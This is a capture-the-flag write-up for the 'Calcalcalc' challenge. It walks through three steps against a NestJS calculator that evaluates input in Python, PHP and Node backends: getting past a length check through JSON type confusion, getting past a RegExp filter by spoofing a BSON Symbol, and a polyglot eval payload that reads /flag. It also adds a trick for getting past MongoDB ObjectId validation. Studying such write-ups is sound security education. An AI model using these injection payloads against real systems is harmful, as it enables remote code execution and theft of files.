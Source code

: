 Calcalcalc
=====================

## Challenge

It's an unbreakable and reliable calculator... I think.

## Writeup

This challenge includes 3 parts: Nestjs / BSON / Polyglot.

### Goals

Read ``docker-compose.yml``, we know flag is hidden in all 3 backends' ``/flag``. 3 backends all calculate user input by ``eval``, our goal is to make a payload which can read ``/flag`` in 3 backends.

### Part 1

Read ``calculate.model.ts``, we know all user input will be validated before the controller gets.

```typescript
export default class CalculateModel {

  @IsNotEmpty()
  @ExpressionValidator(15, {
    message: 'Invalid input',
  })
  public readonly expression: string;

  @IsBoolean()
  public readonly isVip: boolean = false;
}

```

From ``ExpressionValidator``, we will know expression.length can be more than 15 bytes when ``isVip === true``, so the first task is to let ``isVip = true``.

Read the source code of ``class-validator``:
https://github.com/typestack/class-validator/blob/58a33e02fb5e77dde19ba5ca8de2197c9bc127e9/src/validation/Validator.ts#L323
```typescript
return value instanceof Boolean || typeof value === "boolean";
```

Sadly it's JavaScript runtime type. Nestjs will not auto convert ``'true'`` to ``true``(Nestjs is **NOT** Spring), so append ``isVip=true`` after post data is useless. However,
Nestjs + expressjs support ``json`` and ``urlencoded`` as its body by default.
https://github.com/nestjs/nest/blob/205d73721402fb508ce63d7f71bc2a5584a2f4b6/packages/platform-express/adapters/express-adapter.ts#L125
```typescript
    const parserMiddleware = {
      jsonParser: bodyParser.json(),
      urlencodedParser: bodyParser.urlencoded({ extended: true }),
    };
```

Just bypass it:
```http
Content-Type: application/json

{"expression":"MORE_THAN_15_BYTES_STRING", "isVip": true}
```

### Part 2

The second task is to bypass RegExp ``/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/``.

Nestjs is a Nodejs Web Framework which is very similar to Spring, and it's written by TypeScript. However, it's **NOT** Spring. TypeScript is a strongly-typed language, but it's designed for transcompiles to JavaScript so all type definitions will be removed in runtime. We can just ignore ``expression: string`` type hinting and pass an object to ``expression``. This time, ``object.toString() === '[object Object]'``.

But we have no way to let ``object.toString()`` become a useful runnable code ─ if frontend and backends communicate by JSON, it's true. I believe that everyone has used MongoDB. Nodejs can pass a JavaScript function to MongoDB, which is not defined in the JSON standard. So they introduce BSON as their data interchange format. This challenge also used BSON. Luckily, we can let our object acts like a BSON Type in JavaScript.

Let's read ``mongodb/js-bson``'s serializer, we can know it detects the object's type by ``Object[_bsontype]`` instead of ``instanceof``.

https://github.com/mongodb/js-bson/blob/master/lib/parser/serializer.js#L756

```javascript
      } else if (value['_bsontype'] === 'Binary') {
        index = serializeBinary(buffer, key, value, index, true);
      } else if (value['_bsontype'] === 'Symbol') {
        index = serializeSymbol(buffer, key, value, index, true);
      } else if (value['_bsontype'] === 'DBRef') {
```

After searching, I found that ``Symbol`` is the best type to emulate an object as a string. I checked most of the BSON deserializers and ``Symbol.toString()`` always returns the value of the symbol.

So let's build a Symbol like this:

```json
{"expression":{"value":"1+1","_bsontype":"Symbol"}, "isVip": true}
```

### Part 3

In RCTF2018, we released ``cats`` and ``cats Rev.2``, you can name this challenge as ``cats Rev.3``. A new defense technology Cyber Mimic Defense (CMD) was proposed in 2018. We think it is interesting to create a polyglot challenge based on this idea. So it's polyglot time now.

The final payload is:

```json
{"expression":{"value":"open('/flag').read() + str(1//5) or ''' #\n)//?>\nfunction open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php\nfunction open(){echo MongoDB\\BSON\\fromPHP(['ret' => file_get_contents('/flag').'0']);exit;}?>*///'''","_bsontype":"Symbol"}, "isVip": true}
```

Colorize the final eval expression:

Python 3:

```python
open('/flag').read() + str(1//5) or ''' #
)//?>
function open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php
function open(){echo MongoDB\BSON\fromPHP(['ret' => file_get_contents('/flag').'0']);exit;}?>*///'''
  ```

PHP:

```php
return open('/flag').read() + str(1//5) or ''' #
)//?>function open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php
function open(){echo MongoDB\BSON\fromPHP(['ret' => file_get_contents('/flag').'0']);exit;}?>*///''';
```

Nodejs:

```javascript
open('/flag').read() + str(1//5) or ''' #
)//?>
function open(){return {read:()=>require('fs').readFileSync('/flag','utf-8')}}function str(){return 0}/*<?php
function open(){echo MongoDB\BSON\fromPHP(['ret' => file_get_contents('/flag').'0']);exit;}?>*///'''
```

### Others

In this challenge, the BSON part was inspired by the ``996Game`` of ``*CTF2019``. The code of ``996game`` is:

```javascript
GameServer.loadPlayer = function(socket,id){
  GameServer.server.db.collection('players').findOne({_id: new ObjectId(id)},function(err,doc){
```

I built ``{ toHexString: 'aaa', length: 0, id: {length: 12} }`` to bypass the validation of ``ObjectId`` because MongoDB Driver used old version ``js-bson``. This maybe useful in MongoDB injection.
